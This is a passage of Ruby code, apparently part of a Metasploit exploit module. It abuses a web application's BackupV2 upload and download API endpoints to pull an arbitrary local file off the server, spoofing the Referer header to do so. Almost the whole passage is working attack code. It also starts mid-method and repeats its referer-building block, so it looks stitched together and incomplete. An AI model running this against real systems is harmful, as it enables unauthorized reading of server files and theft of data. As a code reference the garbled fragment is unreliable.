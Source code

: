 fail_with(Failure::Unknown, 'An unknown error occurred.')
referer = ''
if !datastore['VHOST'].nil? && !datastore['VHOST'].empty?
  referer = "http#{datastore['SSL'] ? 's' : ''}://#{datastore['VHOST']}/"
else
  referer = full_uri
end

res = send_request_cgi({
  'method' => 'GET',
  'uri' => normalize_uri(target_uri.path, 'api', 'BackupV2', 'upload'),
  'vars_get' => {
    'src' => datastore['LOCAL_FILE_PATH']
  },
  'headers' => {
    'Referer' => referer
  }
})

if res.nil?
  fail_with(Failure::Unreachable, 'Upload request failed.')
end

if res.code != 200
  fail_with(Failure::Unknown, res.body)
end

if res.headers['Content-Type'] == 'application/json'
  json_res = res.get_json_document

  if json_res['success']
    print_good json_res['success']
    return
  end

  fail_with(Failure::Unknown, res.body)
end

fail_with(Failure::BadConfig, 'Either the file cannot be read or the file does not exist.')
referer = ''
if !datastore['VHOST'].nil? && !datastore['VHOST'].empty?
  referer = "http#{datastore['SSL'] ? 's' : ''}://#{datastore['VHOST']}/"
else
  referer = full_uri
end

res = send_request_cgi({
  'method' => 'GET',
  'uri' => normalize_uri(target_uri.path, 'api', 'BackupV2', 'download'),
  'vars_get' => {
    'filename' => filename
  },
  'headers' => {
    'Referer' => referer
  }
})
